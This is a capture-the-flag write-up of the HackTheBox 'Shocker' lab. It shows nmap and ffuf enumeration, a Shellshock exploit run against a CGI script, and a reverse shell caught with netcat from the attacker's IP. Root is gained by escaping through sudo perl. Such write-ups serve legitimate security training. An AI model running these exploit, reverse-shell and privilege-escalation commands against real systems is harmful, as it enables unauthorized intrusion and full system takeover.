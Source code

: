 # HackTheBox: [Shocker](https://app.hackthebox.com/machines/Shocker)

## Enumeration

```console
  $ nmap -n -sCV -T4 -p1-65535 -v $t
  [...]
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-methods:
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-title: Site doesn't have a title (text/html).
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  [...]
```

`ffuf` directory scan:

```console
$ ffuf -ic -v -w ~/list.txt -u http://${t}/FUZZ/
[...]

[Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 112ms]
| URL | http://10.10.10.56/cgi-bin/
    * FUZZ: cgi-bin

:: Progress: [1/1] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Searching the `cgi-bin` directory:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/big.txt -u http://${t}/cgi-bin/FUZZ.sh
[...]

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 126ms]
| URL | http://10.10.10.56/cgi-bin/.htpasswd.sh
    * FUZZ: .htpasswd

[Status: 403, Size: 306, Words: 22, Lines: 12, Duration: 114ms]
| URL | http://10.10.10.56/cgi-bin/.htaccess.sh
    * FUZZ: .htaccess

[Status: 200, Size: 118, Words: 19, Lines: 8, Duration: 128ms]
| URL | http://10.10.10.56/cgi-bin/user.sh
    * FUZZ: user

:: Progress: [20476/20476] :: Job [1/1] :: 323 req/sec :: Duration: [0:01:00] :: Errors: 0 ::
```

```console
$ curl -si http://${t}/cgi-bin/user.sh
HTTP/1.1 200 OK
Date: Wed, 04 Oct 2023 17:53:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 13:53:29 up  1:13,  0 users,  load average: 0.01, 0.12, 0.10
```

## Exploitation

This host is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). I'll use [shellpoc.py](https://github.com/zalalov/CVE-2014-6271/blob/master/shellpoc.py):

```console
$ python2 shellpoc.py 
Usage: shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
Example: shellpoc.py localhost /cgi-bin/test.cgi 10.0.0.1/8080

  e@k(!3826):~
$ python2 shellpoc.py $t /cgi-bin/user.sh 10.10.14.20/443
```

Catching the reverse shell:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 53514
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
d2b360[...]

```

## Privilege Escalation

`perl` is available via `sudo`, from which we can escape to a `root` shell:

```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
87d34c[...]
```
